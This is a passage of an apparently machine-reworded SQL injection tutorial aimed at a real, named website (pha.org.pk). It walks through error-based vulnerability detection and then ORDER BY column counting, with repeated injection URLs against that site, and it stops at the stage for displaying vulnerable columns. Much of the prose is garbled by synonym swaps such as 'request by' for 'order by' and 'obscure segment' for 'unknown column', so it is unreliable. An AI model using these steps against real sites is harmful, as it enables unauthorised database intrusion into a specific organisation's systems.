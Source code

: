 ```
http://www.pha.org.pk/sro_list.php?catid=1'
```

![enter image description here](https://i.postimg.cc/7hNkF34G/1-step.png)

Suppose the page stays on the same page or shows that page not found or shows some different website pages. Then, at that point, it isn't defenseless.

If it is showing any mistakes which are identified with SQL query, then it is powerless.

#### Stage 3: Finding Number of columns:

Presently we have discovered the site is powerless. The subsequent stage is to track down the number of columns in the table.

For that, supplant the single statements(') with "request by a" statement. (leave one space among numbers and request by n explanation)

Change from 1,2,3,4, 5,6,… n. Until you get the blunder like "obscure columns. "
Example:

```
http://www.pha.org.pk/sro_list.php?catid=1 order by 1  
http://www.pha.org.pk/sro_list.php?catid=1 order by 2  
http://www.pha.org.pk/sro_list.php?catid=1 order by 3  
http://www.pha.org.pk/sro_list.php?catid=1 order by 4
```

![enter image description here](https://i.postimg.cc/rwskHRPs/step-2.png)

change the number until you get the mistake as "obscure segment."

Assuming you get the blunder while attempting the "x"th number, no of the segments is "x-1".

Ex.

```
http://www.pha.org.pk/sro_list.php?catid=1 order by 1--(no error)

http://www.pha.org.pk/sro_list.php?catid=1 order by 2--(no error)

http://www.pha.org.pk/sro_list.php?catid=1 order by 3--(no error)

http://www.pha.org.pk/sro_list.php?catid=1 order by 4--(no error)

http://www.pha.org.pk/sro_list.php?catid=1 order by 5--(no error)

http://www.pha.org.pk/sro_list.php?catid=1 order by 6--(error)
```

so presently x=6 , The quantity of segment is x-1 i.e, 5.

![enter image description here](https://i.postimg.cc/4yPDLXvp/3-step.png)

At some point the above may not work. At the time add the "– " toward the finish of the assertion.

#### Stage 4: Displaying the Vulnerable sections:

